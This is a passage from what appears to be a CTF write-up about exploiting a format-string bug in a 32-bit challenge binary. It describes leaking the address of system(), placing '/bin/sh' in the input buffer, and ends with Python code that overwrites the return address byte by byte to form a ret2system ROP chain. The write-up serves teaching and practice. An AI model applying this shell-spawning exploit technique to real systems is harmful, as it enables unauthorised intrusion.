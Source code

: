 Once again, this was too slow and kept timing out. I looked at some options, like stealing the libc binary from memory by returning into the write() libc function (like I did in <a href='https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming'>ropasaurusrex</a>) or trying to make pwntools start where it left off after being disconnected, but none of it would work.

(in retrospect, I probably could have silently re-connected/re-solved the first half of the level in the leak() function and just continued where I left off, but that didn't occur to me till now, like two weeks later)

After fighting for far too long, I had a realization: maybe my home Internet connection just sucks. I uploaded the script to my server and it found the address on the first try (and solved the game portion like 10x faster).

<h3>Getting "/bin/sh"'s address</h3>

Although I ended up with the address of system(), getting the address of "/bin/sh" from libc might be a bit tricky, so instead I simply put the string in my own input buffer - the same buffer that contains the format string - and calculated the offset from the leaked ebp value to that address. Since it was on the stack, it was always at a fixed offset from the saved ebp, which we had access to.

I could easily have leaked libc until I found the offset to the string, but that's completely unnecessary.

<h3>Building the ROP chain</h3>

In the end, I had the address of system() and the address of "/bin/sh" in my buffer. I used them to construct a really simple ROP chain, similar to the one used in <a href='/2015/defcon-quals-r0pbaby-simple-64-bit-rop'>r0pbaby</a> (the difference is that, since we're on 32-bit for this level, we can pass the address of "/bin/sh" on the stack and don't have to worry about finding a gadget):

<pre id='vimCodeElement'>
write_byte(return_ptr+<span class="Constant">0</span>, (system_addr &gt;&gt; <span class="Constant">0</span>) &amp; <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">1</span>, (system_addr &gt;&gt; <span class="Constant">8</span>) &amp; <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">2</span>, (system_addr &gt;&gt; <span class="Constant">16</span>) &amp; <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">3</span>, (system_addr &gt;&gt; <span class="Constant">24</span>) &amp; <span class="Constant">0x0FF</span>)

write_byte(return_ptr+<span class="Constant">4</span>, <span class="Constant">0x5e</span>)
write_byte(return_ptr+<span class="Constant">5</span>, <span class="Constant">0x5e</span>)
write_byte(return_ptr+<span class="Constant">6</span>, <span class="Constant">0x5e</span>)
write_byte(return_ptr+<span class="Constant">7</span>, <span class="Constant">0x5e</span>)

sh_addr = buffer_addr + <span class="Constant">200</span> + FUDGE
write_byte(return_ptr+<span class="Constant">8</span>,  (sh_addr &gt;&gt; <span class="Constant">0</span>) &amp; <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">9</span>,  (sh_addr &gt;&gt; <span class="Constant">8</span>) &amp; <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">10</span>, (sh_addr &gt;&gt; <span class="Constant">16</span>) &amp; <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">11</span>, (sh_addr &gt;&gt; <span class="Constant">24</span>) &amp; <span class="Constant">0x0FF</span>)
</pre>
